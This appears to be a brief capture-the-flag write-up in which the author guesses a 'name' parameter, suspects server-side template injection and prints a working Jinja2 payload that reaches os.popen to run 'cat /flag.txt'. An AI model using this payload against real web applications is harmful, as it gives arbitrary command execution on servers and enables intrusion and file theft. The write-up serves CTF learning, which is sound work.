


# solution

This challenge is bit guessing, from the title and this main page
<br>
I guess maybe have a parameter **name** so i try and luckily this appear
<br>
From my experience i think this is some kinds of ssti and like **I know your ip** i test this payload

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

<br>
